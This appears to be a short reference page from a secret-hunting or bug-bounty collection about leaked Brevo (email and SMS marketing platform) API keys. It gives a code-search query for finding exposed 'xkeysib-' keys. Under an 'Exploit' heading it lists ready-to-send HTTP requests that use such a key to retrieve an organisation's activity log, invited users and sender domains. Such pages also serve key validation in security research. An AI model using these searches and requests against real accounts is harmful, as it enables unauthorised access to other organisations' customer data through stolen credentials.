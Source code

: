```yaml
---
description: >-
  Brevo — The platform that helps you build customer relationships across email,
  SMS, chat & more
---
```


# Brevo Apikey

## Search

```
/xkeysib-/ AND BREVO AND key
```

## Exploit

Get activitys log

```
GET /v3/organization/activities?limit=10&offset=0 HTTP/2
Host: api.brevo.com
Api-Key: xkeysib-[]
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Cache-Control: max-age=0


```

Get users

```
GET /v3/organization/invited/users HTTP/2
Host: api.brevo.com
Api-Key: xkeysib-[]
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Cache-Control: max-age=0


```

Get Domains

```
GET /v3/senders/domains HTTP/2
Host: api.brevo.com
Api-Key: xkeysib-[]
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Cache-Control: max-age=0


```

{% embed url="https://developers.brevo.com/reference/getdomains" %}

